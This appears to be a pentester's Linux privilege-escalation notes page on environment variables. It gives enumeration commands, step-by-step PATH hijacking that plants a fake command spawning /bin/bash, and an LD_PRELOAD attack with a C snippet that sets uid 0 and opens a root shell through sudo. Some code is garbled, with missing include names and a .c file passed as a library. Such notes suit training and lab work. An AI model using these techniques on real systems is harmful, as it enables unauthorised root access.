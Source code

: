 # 5\_Environmental\_Variables

## General

```text
cat /etc/profile 
cat /etc/bashrc 
cat ~/.bash_profile 
cat ~/.bashrc 
cat ~/.bash_logout 
env set
```

## $PATH Variable

### Background

* PATH variable is an environment variable that specifies where executable programs are located. 
* If you type in $PATH in a Unix machine, it will output the directories where various executables are stored. 
* System tries to identify programs in the file locations of the variable going from left to right.

### Attack Vector

#### Programs That Redefine PATH

1. Identify any programs that redefined the PATH variable as part of execution or identify where the default PATH variable points to.  
2. Evaluate the permissions of the folder locations in the PATH variable to see if we have write access to any of them. 
3. If we have write access to any of the folders we can delete the legitimate binary in the folder location and replace it with a malicious one that is executed by a program or Cron job.

#### Programs That Don't Use Full Path For Commands \(Vulnhub:init\)

* Commonly a script uses the name of the command \(cat\) instead of the full path to the command \(/usr/bin/cat\) within a program.  If this occurs, we can:
  * Edit the PATH variable to include a new location to check for the command \(cat\) which executes a shell.  Note: Our current user would need to have the ability to execute the program as we can only change the PATH for the current user \(not the entire system\).
  * Redefine the path by including a directory of our choice at the beginning \(furthest left\) of the check path.

    ```text
    PATH=/new/directory:$PATH
    ```

  * Navigate to the /new/directory and add in a custom shell program with the same name as the command \(cat\) called in the vulnerable program.

    ```text
    echo "/bin/bash" > [shell command]
    ```

  * Make the custom shell program executable by all.

    ```text
    chmod 777 [shell command]
    ```

  * Execute the vulnerable program to have it execute the command \(cat\) which will then search in our /new/directory and execute the same-named shell command to serve a shell under the user that is set earlier in the vulnerable program.
  * Display the PATH variable paths and see if we have access to delete the command in the PATH and replace it with our shell command.  Note: Our current user wouldn't be the one executing this vulnerable program.  It would likely be executed via a cronjob of the elevated user or through SUDO.
  * Understand what locations PATH variable checks.

    ```text
    echo $PATH
    ```

  * Navigate to each PATH going from left to right to see where the command \(cat\) is located first.
  * See if we can change / delete the command \(cat\) with our permissions / upload a replacement shell program named the same as the command \(cat\).

    ```text
    echo "/bin/bash" > [shell commmand]
    ```

  * Make sure the custom shell command is executable by all.

    ```text
    chmod 777 [custom shell command]
    ```

  * Wait for or sudo execute the vulnerable program to thereby execute our shell command.

## $LD\_PRELOAD Variable

### Background

* LD\_PRELOAD is an environment variable that can be set to point to any shared libraries specified. The dynamic linker on the Unix system will load these shared libraries before other libraries. 
* If we have SUDO access to a program that needs to load libraries for operation and also have access to the LD\_PRELOAD variable, we can force the program to load and execute our malicious libraries first before the legitimate ones.

### Attack Vector

1. Create a malicious program 

   \`\`\`

   include  

   include &lt;sys/types.h&gt;  

   include  

void \_init\(\)  
{ unsetenv\("LD\_PRELOAD"\); setgid\(0\); setuid\(0\);  
system\("/bin/bash"\); }

```text
2. Compile programm if necessary. 
3. Load the new library executable first when running a program we have sudo privileges to and we get root.
```

Sudo LD\_PRELOAD=\[path to malicious program\] \[normal sudo program\]

```text

```

Sudo LD\_PRELOAD=/tmp/bad.c find

\`\`\`

